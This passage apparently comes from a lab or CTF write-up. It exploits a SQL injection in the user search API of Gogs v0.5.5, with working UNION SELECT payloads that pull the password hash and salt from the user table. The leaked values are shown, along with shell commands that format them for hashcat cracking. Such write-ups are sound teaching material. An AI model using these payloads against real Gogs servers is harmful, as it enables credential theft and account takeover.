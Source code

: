 I cloned the [Gogs' git repository](https://github.com/gogs/gogs) and checked out the `v0.5.5` tag. I looked at the code and saw that I needed to extract the `passwd` and `salt` fields from the [user table](https://github.com/gogs/gogs/blob/v0.5.5/models/user.go#L53).

I extracted the hashed password.

```php
header("Location: http://localhost:3000/api/v1/users/search?q='/**/AND/**/1=2)/**/UNION/**/ALL/**/SELECT/**/1,2,passwd,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/FROM/**/user/**/where/**/('%25'%3D'");
```

```json
{
  "data": [
    {
      "username": "66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37",
      "avatar": "//1.gravatar.com/avatar/15"
    }
  ],
  "ok": true
}
```

And the salt.

```php
header("Location: http://localhost:3000/api/v1/users/search?q='/**/AND/**/1=2)/**/UNION/**/ALL/**/SELECT/**/1,2,salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/FROM/**/user/**/where/**/('%25'%3D'");
```

```json
{
  "data": [
    {
      "username": "sO3XIbeW14",
      "avatar": "//1.gravatar.com/avatar/15"
    }
  ],
  "ok": true
}
```

I needed to crack the hash, but I did not know the format I should use for hashcat. I found an [issue](https://github.com/hashcat/hashcat/issues/1583) that explained how to convert the hash to the format hashcat expected.


```bash
$ echo -n 'sO3XIbeW14' | base64          
c08zWEliZVcxNA==

$ perl -e 'print pack ("H*", "66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37")' | base64 
ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=
```

